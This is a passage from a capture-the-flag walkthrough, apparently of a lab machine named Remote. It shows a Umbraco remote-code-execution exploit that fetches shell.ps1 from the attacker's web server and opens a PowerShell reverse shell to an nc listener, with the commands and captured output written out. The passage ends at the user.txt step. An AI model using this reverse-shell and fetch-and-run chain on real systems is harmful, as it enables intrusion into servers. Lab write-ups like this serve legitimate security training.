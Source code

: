 ```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443

```

Without this line, the harness would load the reverse shell functions into the PowerShell session, and but not use them. Now it will load the functions and then invoke the one I want to call back to me.

I’ll use three windows:
1. Run `python umbraco_rce_iex.py`.
2. A Python web server hosting `shell.ps1`.
3. A `nc` listener (with `rlwrap` for shell arrow keys) to catch the reverse shell.

Run the exploit (it hangs after `[]`):

```

root@kali# python umbraco_rce_iex.py 
Start
[]

```

In the web server, I see the GET for `shell.ps1`:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.180 - - [21/Mar/2020 20:33:14] "GET /shell.ps1 HTTP/1.1" 200 -

```

Then a second later the shell comes back:

```

root@kali# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49688.
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

```

### user.txt

With this shell I can grab `user.txt`. I’m currently running as a user that doesn’t have a desktop, and in fact, there are no non-admin users on this machine:
